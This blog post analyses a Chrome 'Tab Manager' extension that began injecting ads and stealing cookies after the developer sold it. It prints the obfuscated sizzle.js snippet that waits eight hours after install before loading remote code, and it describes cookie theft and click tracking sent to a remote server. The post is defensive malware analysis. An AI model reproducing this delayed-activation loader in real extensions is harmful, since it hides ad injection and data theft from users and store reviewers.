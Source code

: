 ```yaml
---
title: "How a chrome extension turned to the Dark Side"
date: 2018-05-14
tags: ["chrome", "extension", "browser", "malicious extension"]
draft: false
---
```

*This is a short story and malware analysis of a chrome extension that served people well then the developer sell it to the malicious advertisement company.*
### Discovery
As you may know, recently I have published an extension (yes! one more tab manager for the world) [SplitUp! - Tab Manager](https://chrome.google.com/webstore/detail/splitup-tab-manager/bhoodecbejheonelhikcfahgpgahffmf). I was looking for a way to improve it and Chrome Web Store is a great place to see other extensions to get inspired for new ideas. I searched "tab manager" to get a general list, then I saw this extension with 50K+ users, well the name of the extension wasn't so hard to guess "Tab Manager" 🤔 but I guess this is what people search.
![Tab Manager extension screenshot on web store](/images/fb.png)
### Bad smell
I checked screenshots and decided read reviews to see what people say about it. Well, they were not great. Apparently, from the latest update, the extension showed some malicious behavior such as injecting ads into users' search result without users' contest.  It seemed like many people have already reported the extension but no action has been taken until recently it has been removed. It says usually it takes 2-3 weeks for the extension to be removed from the store. The good news is that after Google flags an extension as a malware, the extension automatically being removed from the current users' browsers. Before it got deleted, I managed to do some analyzes on it and try to see what exactly this extension tries to achieve and how. Since I wasn't really sure what exactly other than ads injection this extension capable of. I decided to utilize my virtual machine for this and install it there.
![Review about Tab Manager on web store](/images/review1.png)
![Review about Tab Manager on web store](/images/review2.png)
### Deep down to the code
First of all, the extension doesn't act maliciously for a while. Once you install it, it stores the current date in the local storage, here the piece of code that was taken from the source
```
chrome.runtime.onInstalled.addListener(function() {
  chrome.storage.local.set({
    time: new Date().getTime()
  });
});
```
This was interesting, at the beginning I didn't quite get why this weird date saves to the storage and no ads showing in my search result as reported by users and the extension made no network activity. The extension also blocked [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) which could mean the extension uses some kind of Command and Control technique to get instruction or get some kind of javascript file from an external source. I decided to dig in a bit more which led me to think that there must some code checking for time or something. 
#### It is there
"Tab Manager" uses React to render UI and Sizzle CSS Selector. After Searching the files for a while for the suspicious behavior I came across abnormal local storage check in sizzle.js :
```
chrome.storage.local.get('time', function (res) {
      if (res.time) {
        var time = (new Date().getTime() - res.time) / 3600000;
        if (time >= 8) {
          slzzle[1][
            (function (nextNode) {
              var attrNames = nextNode[0].attr[index];
              return attrNames.replace(/\>/g, '|').split('|')[1];
            })(slzzle)
          ][
            []
              .concat(appendTypes)
              .concat(nodeType[0].replace('c', nodeType[index][0].toUpperCase()))
              .join('')
          ](element);

          // remove after created for pseudo elements
          element[nodeType[1]].removeChild(slzzle[index].tag);
        }
      }
    });
  })(xpathcurcssesace(document));
```
Boom! this is it! As you see the code checks if a user has been using the extension for a while since I was a new user it behaved as expected. I brought forward my machine's time to a year early and gave a try to extension again.
### Request to the dark side
As expected, the extension started to make an HTTP request to an external source and downloaded a 665KB javascript file which instructs the extension to inject ads, steal and set cookies and so on.
[][image URL HTTP request]
![malicious http request by the extension](/images/httprequest.png)
It is 10913 lines code inside the file and I am not going to into details, a few interesting points are a huge amount of HTTP request and new javascript files are being downloaded based on the website user visits. They made sure that sure will have a native ads experience on every page, hence in every website a new instruction is being downloaded. Every click is recorded in cookies and also send to remote URL. The huge number of websites are covered, from Russian email services mail.ru, yandex.ru to almost all social networks, search engines etc.
In case a user is on the bitconnect registration form
![registration form](/images/registration.png)
It seems like some domains are ignored such as paypal, google drive and .gov domains.
![ignored domains](/images/ignoredDomains.png)
## Conclusion
Unfortunately, these days some developers sell their extension after it gains popularity. This is a huge risk since already downloaded extension will get updated with malicious code without user's contest. It has been showing that Chrome Web Store automatic code check is not perfect for detecting this kind of malicious behaviors. The best solution seems to be conscious and uses an extension that is come from a reliable source or open-source. Although, this extension was an open-source project and it still managed to inject people's browser activities.


